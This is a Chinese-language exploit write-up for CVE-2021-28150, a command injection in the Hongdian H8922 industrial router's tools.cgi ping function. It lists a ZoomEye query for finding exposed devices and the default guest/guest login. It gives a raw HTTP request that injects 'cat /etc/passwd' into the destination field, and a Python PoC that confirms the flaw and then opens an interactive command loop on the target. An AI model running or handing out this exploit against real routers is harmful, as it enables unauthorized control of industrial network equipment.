

# 宏电 H8922 后台命令执行漏洞 CVE-2021-28150

## 漏洞描述

宏电 H8922 后台中的网络测试模块中存在命令执行漏洞。通过命令拼接执行任意命令

## 漏洞影响

```
宏电 H8922
```

## ZoomEye

```
app:"Hongdian H8922 Industrial Router"
```

## 漏洞复现

登录后台(存在访客用户默认账号密码 guest/guest)

使用 ; 命令拼接执行任意命令


请求包为

```plain
POST /tools.cgi HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 96
Cache-Control: max-age=0
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

op_type=ping&destination=;cat /etc/passwd&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A
```

## 漏洞POC

```python
import requests
import sys
import random
import re
from lxml import etree
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 宏电 H8922 后台命令执行漏洞 CVE-2021-28150                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, cmd):
    vuln_url = target_url + "/tools.cgi"
    headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    data = "op_type=ping&destination=;cat /etc/passwd&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/tools.cgi \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功执行 cat /etc/passwd \033[0m".format(target_url))
            html = etree.HTML(response.text)
            cmd_test = html.xpath('/html/body/div[1]/div/div[2]/div/form/fieldset[2]/div/textarea/text()')[0]
            print("\033[32m[o] 响应为:\n{} \033[0m".format(cmd_test))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/tools.cgi"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    data = "op_type=ping&destination=;{}&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        html = etree.HTML(response.text)
        cmd_test = html.xpath('/html/body/div[1]/div/div[2]/div/form/fieldset[2]/div/textarea/text()')[0]
        print("\033[32m[o] 响应为:\n{} \033[0m".format(cmd_test))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    cmd = 'cat /etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, cmd)
```

